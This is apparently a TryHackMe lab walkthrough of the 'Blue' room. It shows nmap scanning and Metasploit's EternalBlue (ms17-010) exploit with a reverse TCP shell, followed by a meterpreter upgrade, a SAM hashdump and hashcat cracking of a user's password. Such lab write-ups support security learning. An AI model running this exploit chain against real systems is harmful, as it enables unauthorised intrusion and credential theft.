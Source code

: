 *2021-08-26*

*kimm3*

# Walkthrough: Blue
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/blue)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

## Scans and enumeration
```
script history/enum1
export IP=10.10.191.24
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```

![nmap-init](assets/markdown-img-paste-20210826113520300.png)

`sudo nmap $IP -p 135,139,445 --script default,vuln -Pn -oA scans/nmap-smb-vuln`

![smb-vuln-scan](assets/markdown-img-paste-2021082611360284.png)

And thats a reason to not use SMBv1.

`searchsploit ms17-010`

![searchsploitsmb](assets/markdown-img-paste-20210826113707739.png)
## Exploit
```
script history/target1
msfconsole
search ms17-010
use 0
info
set RHOSTS 10.10.191.24
show payloads
set 15
run
```

![exploit-failed](assets/markdown-img-paste-20210826114301149.png)

```
show payloads
set 39
run
```

The exploit failed a bunch of times, the two things I did(not sure if any of them made a difference) was to set LHOST to my tunnel ip and use payload 39(shell/reverse_tcp).

![works](assets/markdown-img-paste-20210826114945617.png)

## Post Exploitation
Cracking Jons password.

```
search shell meterpreter
use 19 #post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 10.8.210.115
run
```

I ran it two times and then the host stopped responding, I restarted the machine and set the payload for the eternalblue module to a meterpreter(reverse tcp) and it worked. The exploit/box is not always consistent in what works or not, but a meterpreter is possible.

Once we have a meterpreter, run `hashdump` to retrieve hashes from the SAM.

![hashdump](assets/markdown-img-paste-2021082612243336.png)

`hashcat -a 0 -m 1000 creds/JonHash sl/Passwords/Leaked-Databases/rockyou.txt`

![cracked](assets/markdown-img-paste-20210826123416319.png)

Cracked in about 2 secs.
